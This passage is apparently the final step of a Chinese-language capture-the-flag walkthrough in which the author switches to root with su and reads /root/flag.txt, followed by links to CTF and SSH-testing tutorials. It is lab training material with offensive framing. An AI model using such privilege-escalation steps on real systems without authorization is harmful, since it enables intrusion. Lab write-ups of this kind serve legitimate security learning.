

17. su提权，获取flag：

``` bash
su - root
cat /root/flag.txt
```



# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [2-3CTF夺旗入门教程--SSH服务测试（root权限）](https://blog.csdn.net/m0_46622606/article/details/105059054)